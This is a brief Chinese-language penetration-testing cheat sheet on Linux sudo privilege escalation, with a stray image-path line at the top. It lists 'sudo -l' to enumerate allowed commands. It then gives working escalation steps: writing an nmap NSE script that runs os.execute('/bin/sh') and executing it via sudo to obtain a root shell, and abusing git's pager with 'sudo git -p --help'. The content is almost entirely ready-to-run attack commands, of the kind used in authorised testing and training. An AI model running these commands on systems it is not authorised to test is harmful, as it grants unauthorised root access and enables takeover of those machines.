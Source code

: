 # sudo提权
1. 查看sudo可以执行的命令
```
sudo -l
```
## nmap
如果发现`(root)NOPASSWD:/usr/bin/nmap`则nmap不需要密码便可以用root权限执行,开始提权

    echo 'os.execute("/bin/sh")' > getShell.nse
    sudo -u root nmap --script=getShell.nse

## git
    sudo git -p --help
